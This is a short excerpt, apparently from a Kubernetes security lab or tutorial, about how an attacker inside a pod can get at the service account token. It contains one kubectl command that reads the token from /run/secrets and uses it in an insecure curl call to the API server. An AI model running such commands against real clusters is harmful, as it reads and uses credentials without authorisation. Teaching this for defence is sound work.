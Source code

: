 To access the service account token, an attacker can run the following command:


`kubectl exec -it $POD -- bash -c 'curl https://$KUBERNETES_PORT_443_TCP_ADDR/api --insecure --header "Authorization: Bearer $(cat /run/secrets/kubernetes.io/serviceaccount/token)" && exit'
`{{exec}}

This command fetches the service account token, which is used for authenticating with the Kubernetes API server.



